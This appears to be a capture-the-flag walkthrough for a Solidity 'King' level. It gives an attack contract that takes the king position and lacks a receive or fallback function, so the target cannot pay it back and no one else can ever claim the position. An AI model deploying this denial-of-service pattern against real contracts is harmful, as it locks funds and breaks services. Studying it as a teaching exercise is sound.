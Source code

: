 ```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract AlwaysKing {
  constructor() public {}

  function becomeKing(address payable _targetAddress) public payable {
    (bool success,)= _targetAddress.call{value: msg.value}("");
    require(success==true);
  }
}
```

We can solve this level by deploying a contract for example AlwaysKing with a function becomeKing to transfer ether greater or equal to the prize to become the king and When other players try to become king submitting more ether than the prize the King contract fails to transfer amount to the AlwaysKing contract as it fails to implement the payable receive or fallback function to receive the ether and no one can ever claim the king position.